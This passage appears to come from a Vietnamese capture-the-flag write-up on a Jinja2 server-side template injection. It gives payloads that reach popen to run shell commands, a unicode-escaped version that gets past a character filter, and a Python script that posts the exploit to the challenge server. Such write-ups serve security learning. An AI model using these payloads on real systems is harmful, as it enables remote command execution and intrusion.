 - Payload này là {% raw %}`{{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls').read()}}`{% endraw %}. 

Result:

![image](https://user-images.githubusercontent.com/54855855/146686425-4ea2e897-baf7-4f0b-8332-f76d09d67008.png)

Vậy `flag` ở thư mục hiện tại => bây giờ chỉ cần thay `ls` = `cat flag`, nhưng kết quả trả về cho ta biết chương trình filter `g` và space
- Mình quyết định unicode luôn chuỗi `cat flag` và đây là payload cuối cùng để get flag.

{% highlight text %}
{% raw %}
{{"\u0022\u0022"|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(0)|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(132)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("popen")("\u0063\u0061\u0074\u0020\u0066\u006c\u0061\u0067")|attr("read")()}}
{%  endraw %}
{% endhighlight %}

- Payload này là {% raw %}`{{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat flag').read()}}`{% endraw %}

- Script:
{% highlight python %}
{% raw %}
import requests
import re

url = 'http://45.122.249.68:10011/'
res_regex = r'<p class="lead">(.*?)</p>'


def b64_encode():
    data = {'text':'{{"\\u0022\\u0022"|attr("\\u005f\\u005f\\u0063\\u006c\\u0061\\u0073\\u0073\\u005f\\u005f")|attr("\\u005f\\u005f\\u0062\\u0061\\u0073\\u0065\\u0073\\u005f\\u005f")|attr("\\u005f\\u005f\\u0067\\u0065\\u0074\\u0069\\u0074\\u0065\\u006d\\u005f\\u005f")(0)|attr("\\u005f\\u005f\\u0073\\u0075\\u0062\\u0063\\u006c\\u0061\\u0073\\u0073\\u0065\\u0073\\u005f\\u005f")()|attr("\\u005f\\u005f\\u0067\\u0065\\u0074\\u0069\\u0074\\u0065\\u006d\\u005f\\u005f")(132)|attr("\\u005f\\u005f\\u0069\\u006e\\u0069\\u0074\\u005f\\u005f")|attr("\\u005f\\u005f\\u0067\\u006c\\u006f\\u0062\\u0061\\u006c\\u0073\\u005f\\u005f")|attr("\\u005f\\u005f\\u0067\\u0065\\u0074\\u0069\\u0074\\u0065\\u006d\\u005f\\u005f")("popen")("\\u0063\\u0061\\u0074\\u0020\\u0066\\u006c\\u0061\\u0067")|attr("read")()}}'}
    try:
        r = requests.post(url+'encode', data=data)
    except Exception as e:
        raise e
    str_encode = re.findall(res_regex,r.text)
    return str_encode[1]

def b64_decode():
    text = b64_encode()
    data = {'text':text}
    try:
        r = requests.post(url+'decode', data=data)
    except Exception as e:
        raise e
    print(r.text)

b64_decode()

{%  endraw %}
{% endhighlight %}
